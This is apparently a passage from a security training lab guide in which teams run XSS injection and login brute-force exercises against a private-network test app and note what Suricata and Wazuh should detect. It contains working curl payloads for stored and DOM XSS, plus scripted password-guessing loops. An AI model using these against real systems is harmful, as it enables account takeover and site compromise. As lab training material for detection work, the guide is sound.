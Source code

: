 **🟣 PM Team:**
```bash
# Stored XSS simulation
curl -X POST "http://192.168.0.169:8081/vulnerabilities/xss_s/" \
  --data "txtName=<script>alert('Stored XSS')</script>&mtxMessage=Test&btnSign=Sign Guestbook"

# DOM-based XSS
curl "http://192.168.0.169:8081/vulnerabilities/xss_d/?default=<script>alert('DOM XSS')</script>"
```

**💡 XSS Attack Types:**
- Reflected: payload in URL parameters
- Stored: payload saved in application
- DOM-based: client-side execution
- Cookie theft: session hijacking

**💡 Detection Points:**
- Suricata: script tags in HTTP
- Wazuh: suspicious POST data
- Browser: JavaScript execution
- Network: outbound connections

### Phase 4: Brute Force Attack Scenario

**Deploy Teams Execute Login Attacks:**

**🔵 AM Team:**
```bash
# Rapid login attempts
for i in {1..10}; do
  curl -X POST "http://192.168.0.169:8080/login.php" \
    --data "username=admin&password=wrong$i" \
    --cookie-jar cookies.txt
  sleep 1
done

# Dictionary attack simulation
for pass in password 123456 admin root test; do
  curl -X POST "http://192.168.0.169:8080/login.php" \
    --data "username=admin&password=$pass"
done
```

**🟣 PM Team:**
```bash
# High-frequency attempts
for i in {1..15}; do
  curl -X POST "http://192.168.0.169:8081/login.php" \
    --data "username=user&password=fail$i" &
done
wait
```

**💡 Brute Force Patterns:**
- Multiple failed attempts
- High request frequency
- Dictionary passwords
- Distributed timing
